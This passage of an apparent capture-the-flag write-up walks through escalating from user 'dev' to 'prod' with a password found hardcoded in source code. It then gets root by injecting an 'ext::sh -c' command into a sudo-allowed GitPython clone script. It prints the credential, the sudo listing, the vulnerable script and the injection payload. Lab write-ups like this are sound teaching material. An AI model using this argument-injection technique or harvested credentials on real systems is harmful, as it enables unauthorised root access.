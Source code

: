 ```terminal
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

We got another password for user `prod`. Let's switch users.

```terminal
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

After running sudo -l we see we can run a python script at root, let's see what's on that script.

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

The script takes arguments from the user and pass it to `r.clone_from` function from git library.

Searching on google for this function we find that it is vulnerable to RCE. <https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858>

Let's test the payload provided.

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/hack'
```

![payload](11.png)
